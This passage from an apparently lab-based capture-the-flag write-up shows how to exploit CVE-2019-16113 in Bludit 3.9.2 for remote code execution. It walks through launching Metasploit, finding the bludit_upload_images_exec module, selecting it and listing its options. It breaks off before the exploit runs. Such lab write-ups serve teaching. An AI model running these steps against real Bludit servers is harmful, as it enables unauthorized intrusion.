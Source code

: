 We now have credentials, epic. With this, we can make use of the second vulernability: https://www.cvedetails.com/cve/CVE-2019-16113/

In short, with these credentials, RCE is possible. I found a few different scripts/tools that let me make use of this exploit, however I decided to go with metasploit.

Here's how I did it:

First, enter the Metasploit Console:

```
kali@kali:~/Desktop/htb$ msfconsole
                                                  
 _                                                    _
/ \    /\         __                         _   __  /_/ __
| |\  / | _____   \ \           ___   _____ | | /  \ _   \ \
| | \/| | | ___\ |- -|   /\    / __\ | -__/ | || | || | |- -|
|_|   | | | _|__  | |_  / -\ __\ \   | |    | | \__/| |  | |_
      |/  |____/  \___\/ /\ \\___/   \/     \__|    |_\  \___\
       =[ metasploit v5.0.87-dev                          ]
+ -- --=[ 2006 exploits - 1096 auxiliary - 343 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]
Metasploit tip: Use the resource command to run commands from a file
msf5 > 
```

Cool. Next, we need to search for the exploit that we are going to use.

```
msf5 > search bludit
Matching Modules
================
   #  Name                                          Disclosure Date  Rank       Check  Description
   -  ----                                          ---------------  ----       -----  -----------
   0  exploit/linux/http/bludit_upload_images_exec  2019-09-07       excellent  Yes    Bludit Directory Traversal Image File Upload Vulnerability
```

Awesome, just what we were looking for! Let's set up Metasploit so that we can use this exploit.

```
msf5 > use exploit/linux/http/bludit_upload_images_exec
msf5 exploit(linux/http/bludit_upload_images_exec) > 
```

Alright, now we need to set the paramters for the exploit. In order to see everything that we can set, you want to use the command ``show options``.

```
Module options (exploit/linux/http/bludit_upload_images_exec):
   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   BLUDITPASS                   yes       The password for Bludit
   BLUDITUSER                   yes       The username for Bludit
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT       80               yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI   /                yes       The base path for Bludit
   VHOST                        no        HTTP server virtual host
Exploit target:
   Id  Name
   --  ----
   0   Bludit v3.9.2
```
